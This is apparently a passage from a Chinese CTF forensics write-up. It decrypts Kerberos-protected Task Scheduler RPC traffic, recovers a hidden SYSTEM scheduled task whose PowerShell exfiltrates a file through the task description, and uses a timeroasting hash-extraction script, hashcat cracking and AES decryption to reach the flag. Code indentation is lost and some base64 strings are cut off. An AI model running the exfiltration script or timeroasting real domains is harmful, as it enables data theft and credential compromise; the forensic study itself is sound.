def get_ap_rep_subkey(tshark: str, pcap: Path, keytab: Path, frame: int) ->
crypto.Key:
rows = tshark_tsv(
tshark,
[
"-r",
str(pcap),
"-o",
"kerberos.decrypt:TRUE",
"-o",
f"kerberos.file:{keytab}",
"-Y",
f"frame.number=={frame}",
"-T",
"fields",
"-e",
"kerberos.keyvalue",
"-e",
"kerberos.keytype",
],
)
if not rows:
raise ValueError(f"frame {frame} not found when extracting AP-REP
subkey")

keyvalue = normalize_hex(first_non_empty(rows[0]))
if not keyvalue:
raise ValueError("failed to recover encAPRepPart_subkey via tshark")

keytype = 18
for value in rows[0][1:]:
value = value.strip()
if value:
keytype = int(value)
break

return crypto.Key(keytype, bytes.fromhex(keyvalue))

def get_stream_segments(tshark: str, pcap: Path, stream: int) ->
dict[tuple[int, int], list[TcpSegment]]:
rows = tshark_tsv(
tshark,
[
"-r",
str(pcap),
"-Y",
f"tcp.stream=={stream} && tcp.len>0",
"-T",
"fields",
"-e",
"frame.number",
"-e",
"tcp.srcport",
"-e",
"tcp.dstport",
"-e",
"tcp.seq_raw",
"-e",
"tcp.payload",
],
)

grouped_segments: dict[tuple[int, int], list[TcpSegment]] = {}
for row in rows:
row += [""] * (5 - len(row))
frame = int(row[0])
src_port = int(row[1])
dst_port = int(row[2])
seq = int(row[3])
payload = hex_to_bytes(row[4])
if not payload:
continue
grouped_segments.setdefault((src_port, dst_port), []).append(
TcpSegment(frame=frame, seq=seq, payload=payload)
)

return grouped_segments

def reassemble_tcp_segments(segments: list[TcpSegment]) -> tuple[bytes,
list[tuple[int, int]]]:
if not segments:
raise ValueError("cannot reassemble an empty TCP direction")

segments = sorted(segments, key=lambda segment: (segment.seq,
segment.frame))
base_seq = segments[0].seq
assembled = bytearray()
frame_marks: list[tuple[int, int]] = []

for segment in segments:
start = segment.seq - base_seq
overlap = len(assembled) - start
if overlap < 0:
raise ValueError(f"missing TCP bytes before frame {segment.frame}")
if overlap >= len(segment.payload):
continue

new_start = start + overlap
assembled.extend(segment.payload[overlap:])
frame_marks.append((new_start, segment.frame))

return bytes(assembled), frame_marks

def get_frame_for_offset(offset: int, frame_marks: list[tuple[int, int]]) ->
int:
starts = [start for start, _ in frame_marks]
index = bisect_right(starts, offset) - 1
if index < 0:
raise ValueError(f"failed to resolve frame for stream offset {offset}")
return frame_marks[index][1]

def extract_fragments_from_stream(
stream_bytes: bytes,
frame_marks: list[tuple[int, int]],
pkt_type: int,
call_id: int,
opnum: int | None = None,
) -> list[Fragment]:
fragments = []
offset = 0
while offset + 24 <= len(stream_bytes):
if stream_bytes[offset] != 5:

raise ValueError(f"unexpected DCE/RPC version byte at stream
offset {offset}")

frag_len = int.from_bytes(stream_bytes[offset + 8 : offset + 10],
"little")
if frag_len <= 0 or offset + frag_len > len(stream_bytes):
raise ValueError(f"truncated DCE/RPC PDU at stream offset
{offset}")

pdu = stream_bytes[offset : offset + frag_len]
offset += frag_len

if pdu[2] != pkt_type:
continue

pdu_call_id = int.from_bytes(pdu[12:16], "little")
if pdu_call_id != call_id:
continue

if pkt_type == 0 and opnum is not None:
pdu_opnum = int.from_bytes(pdu[22:24], "little")
if pdu_opnum != opnum:
continue

auth_len = int.from_bytes(pdu[10:12], "little")
stub_len = frag_len - 24 - 8 - auth_len
if stub_len < 0:
raise ValueError(f"invalid stub length at stream offset {offset -
frag_len}")

stub_start = 24
stub_end = stub_start + stub_len
sec_start = stub_end
sec_end = sec_start + 8
sec_trailer = pdu[sec_start:sec_end]
auth_blob = pdu[sec_end : sec_end + auth_len]

fragments.append(
Fragment(
frame=get_frame_for_offset(offset - frag_len, frame_marks),
first_frag=bool(pdu[3] & 0x01),
last_frag=bool(pdu[3] & 0x02),
encrypted_stub_data=pdu[stub_start:stub_end],
krb5_blob=auth_blob,
auth_pad_len=sec_trailer[2],
auth_type=sec_trailer[0],
auth_level=sec_trailer[1],

auth_ctx_id=int.from_bytes(sec_trailer[4:8], "little"),
)
)

return fragments

def get_fragments(
tshark: str,
pcap: Path,
stream: int,
src_port: int,
pkt_type: int,
call_id: int,
opnum: int | None = None,
) -> list[Fragment]:
stream_segments = get_stream_segments(tshark, pcap, stream)
direction = None
for endpoint_pair, segments in stream_segments.items():
if endpoint_pair[0] == src_port:
direction = (endpoint_pair, segments)
break
if direction is None:
directions = ", ".join(f"{src}->{dst}" for src, dst in stream_segments)
raise ValueError(f"source port {src_port} not found in stream
{stream}; got {directions}")

_, segments = direction
stream_bytes, frame_marks = reassemble_tcp_segments(segments)
fragments = extract_fragments_from_stream(stream_bytes, frame_marks,
pkt_type, call_id, opnum)
if not fragments:
raise ValueError(f"no fragments found for pkt_type={pkt_type}, call_id=
{call_id}, opnum={opnum}")
return fragments

def unwrap_fragment(fragment: Fragment, subkey: crypto.Key, usage: int) ->
bytes:
token = GSSAPI_AES256.WRAP(fragment.krb5_blob[:16])
rotated = fragment.krb5_blob[16:] + fragment.encrypted_stub_data
rotate_by = (token["RRC"] + token["EC"]) % len(rotated)
cipher_text = rotated[rotate_by:] + rotated[:rotate_by]

plain_text = crypto._AES256CTS.decrypt(subkey, usage, cipher_text)
data = plain_text[: -(token["EC"] + len(token))]
if fragment.auth_pad_len:
data = data[:-fragment.auth_pad_len]
return data

def reassemble_stub(fragments: list[Fragment], subkey: crypto.Key, usage: int)
-> bytes:
if not fragments:
raise ValueError("cannot reassemble an empty fragment list")
if not fragments[0].first_frag:
raise ValueError(f"first fragment is missing the FIRST_FRAG flag
(frame {fragments[0].frame})")
if not fragments[-1].last_frag:
raise ValueError(f"last fragment is missing the LAST_FRAG flag (frame
{fragments[-1].frame})")
return b"".join(unwrap_fragment(fragment, subkey, usage) for fragment in
fragments)

def extract_task_xml(stub_data: bytes) -> str:
start = stub_data.find(TASK_XML_MARKER)
if start == -1:
raise ValueError("UTF-16 task XML marker not found in decrypted stub")

end = stub_data.find(TASK_XML_END_MARKER, start)
if end == -1:
raise ValueError("task XML end marker not found in decrypted stub")

xml_blob = stub_data[start : end + len(TASK_XML_END_MARKER)]
if len(xml_blob) % 2:
xml_blob = xml_blob[:-1]
return xml_blob.decode("utf-16le")

def parse_powershell_from_arguments(arguments: str) -> tuple[str, str]:
encoded_match = re.search(r"-enc\s+([A-Za-z0-9+/=]+)", arguments)
if not encoded_match:
raise ValueError("failed to locate PowerShell -enc payload in task
arguments")

ps_script = base64.b64decode(encoded_match.group(1)).decode("utf-16le")
helper_match = re.search(r'FromBase64String\("([^"]+)"\)', ps_script)
helper_key_b64 = helper_match.group(1) if helper_match else ""
return helper_key_b64, ps_script

def main() -> None:
parser = argparse.ArgumentParser()
parser.add_argument("--pcap", default="suctf-ad.pcapng")
parser.add_argument("--tshark", default=DEFAULT_TSHARK)
parser.add_argument("--keytab", default="administrator.keytab")
parser.add_argument("--stream", type=int, default=10)
parser.add_argument("--ap-rep-frame", type=int, default=2698)
parser.add_argument("--register-src-port", type=int, default=33980)

parser.add_argument("--register-call-id", type=int, default=2)
parser.add_argument("--register-opnum", type=int, default=1)
parser.add_argument("--retrieve-src-port", type=int, default=49667)
parser.add_argument("--retrieve-call-id", type=int, default=21)
parser.add_argument("--register-xml-out",
default="dNnouHfT_register_task.xml")
parser.add_argument("--script-out", default="dNnouHfT_script.ps1")
parser.add_argument("--retrieved-xml-out",
default="dNnouHfT_retrieved_task.xml")
parser.add_argument("--jpg-out", default="flag.jpg")
args = parser.parse_args()

pcap = Path(args.pcap)
keytab = Path(args.keytab)
subkey = get_ap_rep_subkey(args.tshark, pcap, keytab, args.ap_rep_frame)

register_fragments = get_fragments(
args.tshark,
pcap,
args.stream,
args.register_src_port,
pkt_type=0,
call_id=args.register_call_id,
opnum=args.register_opnum,
)
register_stub = reassemble_stub(register_fragments, subkey, usage=24)
register_task_xml = extract_task_xml(register_stub)

register_root = ET.fromstring(register_task_xml)
arguments = register_root.findtext(".//ts:Arguments",
namespaces=TASK_XML_NS)
task_uri = register_root.findtext(".//ts:URI", namespaces=TASK_XML_NS)
if not arguments:
raise ValueError("failed to parse task arguments from recovered
register XML")
helper_key_b64, ps_script = parse_powershell_from_arguments(arguments)

retrieve_fragments = get_fragments(
args.tshark,
pcap,
args.stream,
args.retrieve_src_port,
pkt_type=2,
call_id=args.retrieve_call_id,
opnum=None,
)
retrieve_stub = reassemble_stub(retrieve_fragments, subkey, usage=22)

retrieved_task_xml = extract_task_xml(retrieve_stub)

retrieve_root = ET.fromstring(retrieved_task_xml)
description = retrieve_root.findtext(".//ts:Description",
namespaces=TASK_XML_NS)
retrieved_task_uri = retrieve_root.findtext(".//ts:URI",
namespaces=TASK_XML_NS)
if not description:
raise ValueError("failed to parse Description from recovered
RetrieveTask XML")

jpg_bytes = base64.b64decode(description)

register_xml_out = Path(args.register_xml_out)
script_out = Path(args.script_out)
retrieved_xml_out = Path(args.retrieved_xml_out)
jpg_out = Path(args.jpg_out)

register_xml_out.write_text(register_task_xml, encoding="utf-8")
script_out.write_text(ps_script, encoding="utf-8")
retrieved_xml_out.write_text(retrieved_task_xml, encoding="utf-8")
jpg_out.write_bytes(jpg_bytes)

print("ap_rep_subkey", subkey.contents.hex())
print("register_fragment_count", len(register_fragments))
print("retrieve_fragment_count", len(retrieve_fragments))
print("task_uri", task_uri or "")
print("retrieved_task_uri", retrieved_task_uri or "")
print("helper_key_b64", helper_key_b64)
print("register_xml_out", str(register_xml_out))
print("script_out", str(script_out))
print("retrieved_xml_out", str(retrieved_xml_out))
print("jpg_out", str(jpg_out))
print("jpg_len", len(jpg_bytes))
print("jpg_sha256", hashlib.sha256(jpg_bytes).hexdigest())
print("powershell_head", ps_script.splitlines()[0] if ps_script else "")

if __name__ == "__main__":
main()
```

得到

```text
<?xml version="1.0" encoding="UTF-16"?>

<Task version="1.3"
xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
<RegistrationInfo>
<Description>/9j/4AAQSkZJRgA <URI>\dNnouHfT</URI>
</RegistrationInfo>
<Principals>
<Principal id="LocalSystem">
<UserId>S-1-5-18</UserId>
<RunLevel>HighestAvailable</RunLevel>
</Principal>
</Principals>
<Settings>
<DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
<StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
<ExecutionTimeLimit>PT1M</ExecutionTimeLimit>
<Hidden>true</Hidden>
<MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
<IdleSettings>
<Duration>PT10M</Duration>
<WaitTimeout>PT1H</WaitTimeout>
<StopOnIdleEnd>true</StopOnIdleEnd>
<RestartOnIdle>false</RestartOnIdle>
</IdleSettings>
<UseUnifiedSchedulingEngine>true</UseUnifiedSchedulingEngine>
</Settings>
<Triggers>
<CalendarTrigger>
<StartBoundary>2015-07-15T20:35:13</StartBoundary>
<ScheduleByDay>
<DaysInterval>1</DaysInterval>
</ScheduleByDay>
</CalendarTrigger>
</Triggers>
<Actions Context="LocalSystem">
<Exec>
<Command>powershell.exe</Command>
<Arguments>-NonInteractive -enc JAB0AGEAcgBnA </Exec>
</Actions>
</Task>
```

解密得到

```text
$target_file = "C:\flag.jpg"
$encryptionKey = [System.Convert]::FromBase64String("Ozunm03CgPP5P4BNFhroAQ==")

function ConvertTo-Base64($byteArray) {
[System.Convert]::ToBase64String($byteArray)
}

function ConvertFrom-Base64($base64String) {
[System.Convert]::FromBase64String($base64String)
}

function Encrypt-Data($key, $data) {
$aesManaged = New-Object System.Security.Cryptography.AesManaged
$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aesManaged.Key = $key
$aesManaged.GenerateIV()
$encryptor = $aesManaged.CreateEncryptor()
$utf8Bytes = [System.Text.Encoding]::UTF8.GetBytes($data)
$encryptedData = $encryptor.TransformFinalBlock($utf8Bytes, 0,
$utf8Bytes.Length)
$combinedData = $aesManaged.IV + $encryptedData
return ConvertTo-Base64 $combinedData
}

function Decrypt-Data($key, $encryptedData) {
$aesManaged = New-Object System.Security.Cryptography.AesManaged
$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$combinedData = ConvertFrom-Base64 $encryptedData
$aesManaged.IV = $combinedData[0..15]
$aesManaged.Key = $key
$decryptor = $aesManaged.CreateDecryptor()
$encryptedDataBytes = $combinedData[16..$combinedData.Length]
$decryptedDataBytes = $decryptor.TransformFinalBlock($encryptedDataBytes,
0, $encryptedDataBytes.Length)
return [System.Text.Encoding]::UTF8.GetString($decryptedDataBytes)
}
function DownloadByPs($taskname){
$task = Get-ScheduledTask -TaskName $taskname -TaskPath \;
# Check if file exists
if (Test-Path -Path $target_file) {
try {
# Read file content and encrypt it, then save it to task
```

description

```text
# Check if file is larger than 1MB
$fileInfo = Get-Item $target_file
if ($fileInfo.Length -gt 1048576) {
$result = "[-] File is too large."
}else{

$result = Get-Content -Path $target_file -Encoding Byte
}
} catch {
$result = $_.Exception.Message
}
}else{
$result = "[-] File not exists."
}
$b64result = ConvertTo-Base64 $result
$task.Description = $b64result
Set-ScheduledTask $task
}
function DownloadByCom($taskname){
$taskPath = "\"
$scheduler = New-Object -ComObject Schedule.Service
$scheduler.Connect()
try {
$folder = $scheduler.GetFolder($taskPath)
$result = ""
$task = $folder.GetTask($taskname)
$definition = $task.Definition
# Check if file exists
if (Test-Path -Path $target_file) {
try {
# Read file content and encrypt it, then save it to task
```

description

```text
# Check if file is larger than 1MB
$fileInfo = Get-Item $target_file
if ($fileInfo.Length -gt 1048576) {
$result = "[-] File is too large."
}else{
$result = Get-Content -Path $target_file -Encoding Byte
}
} catch {
$result = $_.Exception.Message
}
}else{
$result = "[-] File not exists."
}
$b64result = ConvertTo-Base64 $result
$definition.RegistrationInfo.Description = $b64result
$user = $task.Principal.UserId
$folder.RegisterTaskDefinition($task.Name, $definition, 6, $user,
$null, $task.Definition.Principal.LogonType)
}catch {
Write-Error "Failed.."
}

finally {
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($scheduler)
```

| Out-Null

```text
}
}
$taskname = "dNnouHfT"
try {
DownloadByPs($taskname)
}catch{
DownloadByCom($taskname)
}
[Environment]::Exit(0)
```

通过Taylor@1989对flag.jpg进行steghide解密得到flag.txt

得到密文

```
QqWLN5rRRL3PaY57fcy8BCHVa/0td+R6LmenlhPZ1JHVgLeRKw9g53EJv3/fx+92i7ZQkQCciC3xGcc
```

$$
bf8NAT8Z9LJdc6mtfIIQcpe0hh2dNSHVUDXE/esTeJ3zIUGAh09N6SQBCQqIa4IX529QjTrwMphzfwI
$$

$$
N8mgAjgx6jJ3Um3bSnxkIO9hJJL5+Xxjs/0LRx7QwELhDzuA9+m7vaFwKzKclwT+MnsrXA942K3wQ=
$$

看着就是 AES 的加密形式,但是我们缺少一个 key，然后回到整个流量包进行协议分析可以知道还有存
在NTP的协议，还存在timeroasting的攻击办法可以拿到用户的密码，那看流量能发现出题人是指定
用户的sid然后进行timeroasting的，然后可以写脚本提取

```python
from scapy.all import rdpcap, UDP
import struct
import sys
```



```python
def extract_from_pcap(pcap_file):
packets = rdpcap(pcap_file)
hashes = []

for pkt in packets:
if not pkt.haslayer(UDP):
continue
udp = pkt[UDP]
if udp.sport != 123 and udp.dport != 123:
continue

raw = bytes(udp.payload)
if len(raw) < 68:
continue

ntp_body = raw[:48] # salt (48字节)
key_id = raw[48:52] # RID (4字节)
md5_sig = raw[52:68] # MD5 签名 (16字节)

if md5_sig == b'\x00' * 16:
continue

# mode: 低3位, 4=server
mode = ntp_body[0] & 0x07
if mode != 4:
continue

# RID: 小端序（和 PowerShell BitConverter.ToUInt32 一致）
rid = struct.unpack('<I', key_id)[0]

src = pkt.sprintf("%IP.src%") if pkt.haslayer("IP") else "?"
dst = pkt.sprintf("%IP.dst%") if pkt.haslayer("IP") else "?"

# ============================================
# 正确格式: RID:$sntp-ms$<MD5 hex>$<salt hex>
# MD5 在前！Salt 在后！
# ============================================
hex_md5 = md5_sig.hex()
hex_salt = ntp_body.hex()
hash_line = f"{rid}:$sntp-ms${hex_md5}${hex_salt}"

hashes.append({
"rid": rid,
"src": src,
"dst": dst,
"hash": hash_line,

"md5": hex_md5
})

return hashes

def main():
if len(sys.argv) < 2:
print(f"用法: python3 {sys.argv[0]} <pcap> [output.txt]")
sys.exit(1)

pcap_file = sys.argv[1]
output_file = sys.argv[2] if len(sys.argv) > 2 else None

print(f"[*] 读取: {pcap_file}")
results = extract_from_pcap(pcap_file)

if not results:
print("[-] 未提取到有效 hash")
sys.exit(1)

print(f"[+] 提取到 {len(results)} 条 hash:\n")
for r in results:
print(f" RID={r['rid']} {r['src']} -> {r['dst']}")

print(f"\n[+] Hashcat 格式:\n")
for r in results:
print(r["hash"])

if output_file:
with open(output_file, "w") as f:
for r in results:
f.write(r["hash"] + "\n")
print(f"\n[+] 已保存: {output_file}")

out = output_file or "hashes.txt"
print(f"\n[*] hashcat -m 31300 {out} rockyou.txt --username")

if __name__ == "__main__":
main()

1001:$sntp-
ms$cb1877ec7aeeffb785f5689e483f0a3b$1c0111e900000000000a4c034c4f434ced54e820c41
```

a9b8ce1b8428bffbfcd0aed554c56e832914ced554c56e833a7cd

```text
4104:$sntp-
ms$8e8bab42e2cac7e5ef5d252f1eb63a5b$1c0111e900000000000a4c274c4f434ced54e820c5f
```

ea811e1b8428bffbfcd0aed554c868a16e29aed554c868a176f88

然后用hashcat的31300模式去crack就行了

得到密码为 `*joker*123`。这里最后对 AES 密钥进行多次尝试，发现需要先对该密码做 SHA256，再作为 AES-CBC 的 key 解密密文：

```text
$ hashcat -m 31300 sntp.hash rockyou.txt
Status...........: Cracked
Recovered........: 1/1 (100.00%)
$sntp-ms$...:*joker*123
```

CyberChef 流程为 `From Base64 -> AES Decrypt(CBC, key=SHA256(password), iv=...)`，输出得到最终 flag。

## 方法总结
- 核心技巧：Kerberos + TSCH 流量解密
- 识别信号：PCAP 出现 Kerberos、MS-RPC TaskSchedulerService、计划任务 XML 或加密 PowerShell。
- 复用要点：先恢复 TGT/TGS session key，再用 tshark/impacket 解密 Kerberos 与 RPC 负载，最后解析计划任务和脚本。
